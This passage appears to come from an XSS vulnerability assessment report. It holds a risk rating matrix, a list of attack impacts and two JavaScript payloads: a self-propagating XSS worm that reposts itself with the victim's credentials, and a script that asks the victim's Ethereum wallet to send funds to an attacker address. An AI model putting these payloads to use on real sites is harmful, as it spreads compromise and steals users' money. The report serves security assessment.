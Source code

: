 
## Risk Assessment Matrix

| Risk Factor | Rating | Details |
|-------------|--------|---------|
| **Exploitability** | Very High | Simple payloads, no authentication required |
| **Attack Complexity** | Very Low | Basic HTML/JavaScript knowledge sufficient |
| **Privileges Required** | None | Public endpoints vulnerable |
| **User Interaction** | Varies | Reflected requires click, Stored is automatic |
| **Scope** | Changed | Can affect all users viewing content |
| **Confidentiality Impact** | High | Session theft, data exfiltration |
| **Integrity Impact** | High | Content manipulation, defacement |
| **Availability Impact** | Medium | Potential DoS via resource consumption |

---

## Attack Impact Analysis

### Immediate Threats:
1. **Account Takeover** - Session cookie theft enables full account access
2. **Phishing Attacks** - Inject fake login forms to harvest credentials
3. **Malware Distribution** - Serve malicious downloads through stored XSS
4. **Data Theft** - Extract sensitive information from authenticated users
5. **Defacement** - Modify visible content for all users

### Advanced Attack Scenarios:

#### XSS Worm Example:
```javascript
<script>
// Self-propagating worm
var wormCode = document.currentScript.outerHTML;
fetch('/post/*/comment', {
    method: 'POST',
    credentials: 'include',
    body: 'comment=' + encodeURIComponent(wormCode)
});
</script>
```

#### Cryptocurrency Wallet Theft:
```javascript
<script>
if(window.ethereum) {
    ethereum.request({
        method: 'eth_sendTransaction',
        params: [{
            from: ethereum.selectedAddress,
            to: '0xATTACKER_WALLET',
            value: '0xFFFFFFFFF'
        }]
    });
}
</script>
```

---